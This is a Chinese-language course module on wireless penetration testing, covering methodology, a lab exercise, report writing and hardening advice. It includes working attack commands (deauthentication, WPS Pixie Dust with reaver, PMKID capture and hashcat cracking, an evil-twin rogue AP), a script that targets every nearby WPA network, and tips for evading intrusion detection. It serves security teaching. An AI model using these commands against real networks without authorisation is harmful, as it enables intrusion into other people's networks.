



# 模块07：无线安全综合实战

> **学习目标**：掌握完整无线渗透测试流程、多工具协同、报告编写
> **所需工具**：aircrack-ng全套, kismet, reaver, bully, wifite, hostapd-wpe, airgeddon, hashcat, hcxdumptool, wifiphisher, nmap

## 目录

- [[#一、无线渗透测试标准流程|标准流程]]
- [[#二、多工具协同与自动化|工具协同]]
- [[#三、企业无线安全评估|企业评估]]
- [[#四、规避检测技术|规避检测]]
- [[#五、后渗透阶段|后渗透]]
- [[#六、报告编写|报告编写]]
- [[#七、综合实战演练|综合实战]]
- [[#八、安全加固建议|安全加固]]
- [[#九、未来展望|未来展望]]

---

## 一、无线渗透测试标准流程

### 1.1 五阶段方法论



### 1.2 攻击路径决策树



---

## 二、多工具协同与自动化

### 2.1 双网卡并行操作(推荐配置)

- 网卡1 (wlan0 → wlan0mon)：监听/捕获
- 网卡2 (wlan1 → wlan1mon)：主动攻击(Deauth/注入)

```bash
# 终端1：网卡1捕获
sudo airodump-ng -c 6 --bssid TARGET -w capture wlan0mon

# 终端2：网卡2注入
sudo aireplay-ng -0 3 -a TARGET -c CLIENT wlan1mon
```

### 2.2 工具链数据流转



### 2.3 批量目标处理脚本

```bash
#!/bin/bash
interface=wlan0mon
dict=/usr/share/wordlists/rockyou

# 扫描并保存AP列表
sudo airodump-ng $interface -w scan --output-format csv &
sleep 60
kill %1

# 解析AP列表
grep WPA scan-01.csv | while read line; do
  bssid=$(echo $line | cut -d, -f1)
  channel=$(echo $line | cut -d, -f4)
  essid=$(echo $line | cut -d, -f14)

  echo "Target: $essid ($bssid) Ch:$channel"

  # 定向捕获
  sudo timeout 120 airodump-ng -c $channel \
    --bssid $bssid -w "cap_$essid" $interface
done
```

---

## 三、企业无线安全评估

### 3.1 企业安全评估清单

**01 物理安全**
- [ ] AP是否在可物理接触范围？
- [ ] AP是否锁在机柜中？
- [ ] 是否有未授权AP插入网络端口？

**02 加密安全**
- [ ] 是否使用WPA2-Enterprise？(禁止PSK用于企业)
- [ ] 是否强制使用CCMP(AES)？(禁用TKIP)
- [ ] 管理帧是否保护？(PMF/802.11w启用)

**03 认证安全**
- [ ] 是否使用强EAP方法？(EAP-TLS, PEAP)
- [ ] 是否启用客户端证书验证？
- [ ] RADIUS服务器是否安全配置？

**04 WPS安全**
- [ ] WPS是否已禁用？(企业环境必须禁用)

**05 Guest网络**
- [ ] Guest网络是否与内网逻辑隔离？
- [ ] Client Isolation是否启用？

**06 监控和检测**
- [ ] 是否部署WIDS/WIPS？
- [ ] Rogue AP检测是否启用？

**07 客户端安全**
- [ ] 是否禁止自动连接开放网络？
- [ ] 是否配置802.1X supplicant安全？

### 3.2 企业环境常见风险

**风险一: BYOD设备** — 个人设备可能自动连接Rogue AP；缓解：MDM管理，证书强制验证

**风险二: Rogue AP(内部威胁)** — 员工私自接入非授权AP；缓解：WIDS，定期Walk-through扫描

**风险三: 证书不验证** — 客户端不验证RADIUS服务器证书；缓解：GPO/配置文件强制证书验证

**风险四: 弱密码策略** — 部分用户使用弱域密码；缓解：强密码策略，多因素认证

---

## 四、规避检测技术

### 4.1 WIDS可检测的行为

- 异常Deauth/Disassoc帧(大量广播Deauth)
- 具有相同BSSID的不同设备(Evil Twin)
- 基于信号强度异常的AP
- WPS暴力攻击(大量EAP失败)

### 4.2 规避检测技巧

① **降低Deauth速率**：发送极少量Deauth(1次)，等待自然重连
```bash
sudo aireplay-ng -0 1 -a TARGET -c CLIENT wlan0mon
```

② **被动等待替代主动攻击**：等待合法客户端自然连接；PMKID攻击不需要Deauth

③ **伪装MAC地址**：
```bash
sudo macchanger -r wlan0
```

④ **限制攻击频率**：对WPS攻击使用间隔
```bash
sudo reaver -r 3:30 ...
```

⑤ **利用合法行为**：模拟正常客户端行为

⑥ **时间选择**：在非安全人员工作时段攻击；隐藏在正常WiFi流量高峰期

---

## 五、后渗透阶段

### 5.1 连接目标WiFi

```bash
sudo wpa_supplicant -B -i wlan0 -c <(wpa_passphrase SSID 'password')
sudo dhclient wlan0
ip addr show wlan0
```

### 5.2 内网扫描

```bash
# Ping扫描
sudo nmap -sn 192.168.1.0/24

# 详细扫描
sudo nmap -sV -O -p- 192.168.1.0/24

# 服务枚举
sudo nmap -sC -sV 192.168.1.0/24
```

### 5.3 路由器漏洞检测

```bash
curl http://192.168.1.1
enum4linux 192.168.1.1
nikto -h http://192.168.1.1
```

### 5.4 流量嗅探

```bash
sudo tcpdump -i wlan0 -w internal_traffic.pcap
sudo bettercap -iface wlan0
```

---

## 六、报告编写

### 6.1 报告结构

**1. 执行摘要 (Executive Summary)**
- 测试范围和日期
- 关键发现总结
- 整体风险等级(严重/高/中/低)
- 关键建议概述

**2. 测试方法 (Methodology)**
- 使用的工具列表和版本
- 测试范围(AP数量、SSID列表、位置)
- 测试时间窗口

**3. 发现详情 (Findings)**

每个发现包含：
- 漏洞ID (编号)
- 严重性评级
- 受影响的AP/SSID
- 发现描述
- 复现步骤
- 证据(截图、日志)
- 影响分析
- 修复建议

示例发现：

| 字段 | 内容 |
|------|------|
| 漏洞ID | WIFI-001 |
| 严重性 | 严重 |
| 标题 | WPS启用且可被Pixie Dust攻击 |
| 描述 | AP存在Pixie Dust漏洞，攻击者在15秒内成功获取WPA密码 |
| 影响 | 任何在WiFi范围内的攻击者可极短时间内破解 |
| 修复 | 立即在路由器管理页面禁用WPS功能 |

**4. 风险评估矩阵**

| 漏洞ID | 可能性 | 影响 | 风险等级 |
|--------|--------|------|----------|
| WIFI-001 | 高 | 严重 | Critical |
| WIFI-002 | 中 | 高 | High |
| WIFI-003 | 低 | 中 | Medium |

**5. 修复建议 (Remediation)**
- P0 (立即)：禁用WPS, 更换被破解的WiFi密码
- P1 (一周)：部署WPA2-Enterprise替代PSK, 启用PMF
- P2 (一月)：部署WIDS, 制定无线安全策略
- P3 (计划)：研究WPA3过渡方案

---

## 七、综合实战演练

### 7.1 实验环境准备

至少2个测试AP(不同加密方式)：
- WPA2-PSK (EasyWiFi)
- WPA2-PSK + WPS (WPS_WiFi)
- WPA2-Enterprise (模拟)
- 至少1个客户端连接

### 7.2 阶段1：侦察

```bash
# 监听模式
sudo airmon-ng check kill
sudo airmon-ng start wlan0

# 全信道扫描
sudo airodump-ng wlan0mon

# WPS设备扫描
sudo wash -i wlan0mon -a

# Kismet深度分析(并行)
sudo kismet -c wlan0
# 访问 http://localhost:2501

# 定向客户端分析
sudo airodump-ng -c <CH> --bssid <BSSID> -w recon_<ID> wlan0mon
```

### 7.3 阶段2-3：攻击

**目标1：WPS_WiFi (Pixie Dust)**
```bash
sudo reaver -i wlan0mon -b <WPS_BSSID> -c <CH> -K 1 -vv
# 预期：15秒获取PIN和密码
```

**目标2：EasyWiFi (PMKID或Deauth+握手)**
```bash
# 方法A: PMKID
sudo hcxdumptool -i wlan0mon -o easywifi.pcapng --enable_status=1 --bssid=<BSSID> --filtermode=2
hcxpcapngtool easywifi.pcapng -o easywifi.hc22000
hashcat -m 22000 easywifi.hc22000 rockyou.txt

# 方法B: Deauth获取握手
# 终端1
sudo airodump-ng -c <CH> --bssid <BSSID> -w easywifi_cap wlan0mon
# 终端2
sudo aireplay-ng -0 3 -a <BSSID> -c <CLIENT_MAC> wlan0mon
```

**目标3：Enterprise (Rogue AP)**
```bash
sudo hostapd-wpe /tmp/hostapd-wpe.conf
```

### 7.4 阶段4：后渗透

```bash
# 恢复网卡并连接
sudo airmon-ng stop wlan0mon
sudo systemctl restart NetworkManager
nmcli dev wifi connect EasyWiFi password password

# 内网扫描
sudo nmap -sn 192.168.1.0/24
sudo nmap -sV -sC -O 192.168.1.0/24

# 路由器评估
curl -s http://192.168.1.1 | head -20
```

### 7.5 阶段5：报告

汇总所有发现，编写执行摘要、发现详情、风险矩阵、修复建议。

---

## 八、安全加固建议

### 8.1 家庭用户

**L1 基础(必须做)**
- [ ] 修改路由器默认管理员密码
- [ ] 使用WPA2-PSK(AES)或WPA3
- [ ] 设置强WiFi密码(16位+混合字符)
- [ ] 禁用WPS
- [ ] 更新路由器固件

**L2 进阶(建议做)**
- [ ] 启用MAC地址过滤
- [ ] 降低AP发射功率
- [ ] 启用路由器管理界面的HTTPS
- [ ] 禁用远程管理

**L3 高级**
- [ ] 定期检查已连接设备列表
- [ ] 使用访客网络隔离IoT设备
- [ ] 定期更换WiFi密码

### 8.2 企业

① **加密和认证**：WPA2-Enterprise(EAP-TLS)、启用PMF、迁移到WPA3

② **网络架构**：内部/访客网络隔离、Client Isolation、VLAN分段

③ **监控和检测**：部署WIDS/WIPS、定期安全评估、SIEM集中日志

④ **客户端安全**：MDM管理、禁用自动连接开放网络、定期审计WiFi配置

⑤ **运维安全**：定期固件更新、变更管理、应急预案、员工安全意识培训

---

## 九、未来展望

### 9.1 WiFi 6 (802.11ax)

- OFDMA：更复杂帧结构
- WPA3强制支持
- 6GHz频段(6E)：需新硬件

### 9.2 WPA3安全深度

改进：
- SAE替代4次握手，Dragonfly密钥交换
- 前向保密：密码泄露不影响历史流量
- 抗离线字典攻击

已知攻击：
- Dragonblood(2019)：降级攻击 → WPA2
- 过渡模式(Transition Mode)可被利用
- 时间侧信道攻击

### 9.3 WiFi 7 (802.11be) 展望

- 320 MHz 信道带宽
- 多链路操作(MLO)
- 新协议需要新解析工具

---

## 课程总结

通过7个模块的学习，你已经掌握了：

| 模块 | 核心技能 |
|------|----------|
| 01 | 802.11协议原理、网卡配置、监听模式 |
| 02 | 全信道/定向扫描、Kismet分析、WPS发现 |
| 03 | WEP漏洞原理、ARP重放、aircrack-ng流程 |
| 04 | 4次握手原理、握手捕获、PMKID、hashcat GPU |
| 05 | WPS PIN设计缺陷、Pixie Dust、reaver/bully |
| 06 | WPA2-Enterprise攻击、Rogue AP、Evil Twin |
| 07 | 完整渗透测试流程、报告编写、安全加固 |

**后续进阶路径**：
→ SDR(软件定义无线电)安全 → 蓝牙/BLE安全 → ZigBee/Z-Wave IoT安全 → 5G无线安全 → RFID/NFC安全 → GPS欺骗

---

> **相关模块**：[[01-无线网络基础|无线基础]] | [[02-无线侦察与扫描|无线侦察]] | [[04-WPA-WPA2破解|WPA2破解]] | [[06-企业无线攻击与Rogue AP|企业攻击]]

[[../总目录与快速查询|← 返回总目录]]
